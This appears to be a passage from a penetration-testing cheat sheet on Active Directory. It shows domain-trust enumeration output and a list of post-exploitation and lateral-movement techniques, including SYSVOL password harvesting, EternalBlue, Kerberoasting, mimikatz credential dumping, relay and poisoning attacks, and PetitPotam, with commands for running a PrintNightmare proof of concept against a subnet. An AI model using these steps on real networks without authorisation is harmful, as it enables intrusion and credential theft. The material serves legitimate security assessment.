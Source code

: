 ```powershell
TrustType                : Forest
TrustDirection           : Bidirectional

TopLevelNames            : {aws-sa-domain.net}
ExcludedTopLevelNames    : {}
TrustedDomainInformation : {aws-sa-domain.net}
SourceName               : domain.net
TargetName               : aws-sa-domain.net
TrustType                : Forest
TrustDirection           : Bidirectional


ms-ds-machineaccountquota => 
```

## Post-Exploitation / Lateral movement

Quick wins in internal assessments

1. Passwords in SYSVOL / GPP / MS14-025 - `\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`
2. BloodHound
3. MS14-068 netapi exploit / MS17-010 eternalblue
4. SPN Scanning - `GetUserSPNs.py`
5. mimikatz after elevating privileges
6. [Powershell Remoting + WinRM + AllowUnencrypted](http://blogs.msdn.com/b/powershell/archive/2015/10/27/compromising-yourself-with-winrm-s-allowunencrypted-true.aspx)
7. Kerberoast and ASEPRoasting
8. PrivExchange (Exchange servers)
9. ntds.dat from backup files
10. LLMNR+NBT poisoning
11. IPv6 WPAD poisoning - `mimt6`
12. Cred Dump using procdump (find a way to block mimikatz execution)
13. Resource-based Constrained Delegation
14. [SMB relay](https://bsidescyprus.com/presentations/bsidesCyprus_DropTheMIC.pdf)
15. IPv6 DNS Takeover
16. [PrintNightmare](https://github.com/byt3bl33d3r/ItWasAllADream)
	```bash
	# if command returns something it is vulnerable
	rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
	Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
	Protocol: [MS-RPRN]: Print System Remote Protocol

	# PoC
	git clone https://github.com/byt3bl33d3r/ItWasAllADream; 
	cd ItWasAllADream; sudo docker build -t itwasalladream .
	sudo docker run -it itwasalladream -u user -p password -d domain 10.1.1.1/24
	```
17. [SeriousSAM]()(Requires volume shadow copies enabled)
18. [PetitPotam](https://github.com/topotam/PetitPotam)
	```bash
	# In one pane:
	sudo responder -I eth0 -A
